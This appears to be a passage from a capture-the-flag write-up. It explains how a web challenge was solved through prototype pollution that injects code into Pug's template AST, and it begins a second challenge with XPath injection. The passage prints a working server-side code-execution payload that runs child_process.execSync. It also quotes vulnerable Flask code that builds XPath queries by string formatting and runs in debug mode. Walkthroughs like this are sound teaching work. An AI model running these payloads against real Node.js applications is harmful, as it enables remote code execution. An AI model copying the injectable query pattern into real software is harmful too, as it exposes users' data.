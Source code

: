 That first line of the function basically allows the user to pollute JS's Object with external data. After some trials and research I found out that [Pug is vulnerable to AST injection](https://blog.p6.is/AST-Injection), meaning that by populating an internal debug variable with some code it would get executed when compiling the page template, and therefore I could inject server-side code. The JSON payload is flattened, so I flattened this object into the request body and made a client-side test with positive results:

```json
{
    "song": {
        "name": "abc"
    },
    "__proto__": {
        "block": {
            "type": "Text",
            "line": "console.log('Test')"
        }
    }
}
```

The next step was finding and retrieving the flag, which according to the source code was a file with a randomized suffix. Since all paths different from 'index.html' and the API endpoint where routed to a 404 error page, I came up with the following payload to replace the index file with the flag:

```json
{"song.name": "abc", "__proto__.block.type": "Text", "__proto__.block.line": "process.mainModule.require('child_process').execSync('cp fl* views/index.html').toString()"}
```

Visiting the website revealed in fact that the injection was successful and the file was substituted with the flag:

```
$ curl http://.../index.html
CHTB{p0llute_with_styl3}
```

## E.Tree
This portal (of which I don't have a screenshot) resembled an employee directory with a textbox to search for specific names. I immediately thought about some SQL injection, but trying to submit a single quote turned things around: the error response from the API endpoint was not simply a 500 error code, but a whole stack trace of a Python server even showing a snippet of code:

```python
@app.route("/api/search", methods=["POST"])
def search():
    name = request.json.get("search", "")
    query = "/military/district/staff[name='{}']".format(name)

    if tree.xpath(query):
        return {"success": 1, "message": "This millitary staff member exists."}

    return {"failure": 1, "message": "This millitary staff member doesn't exist."}

app.run("0.0.0.0", port=1337, debug=True)
```
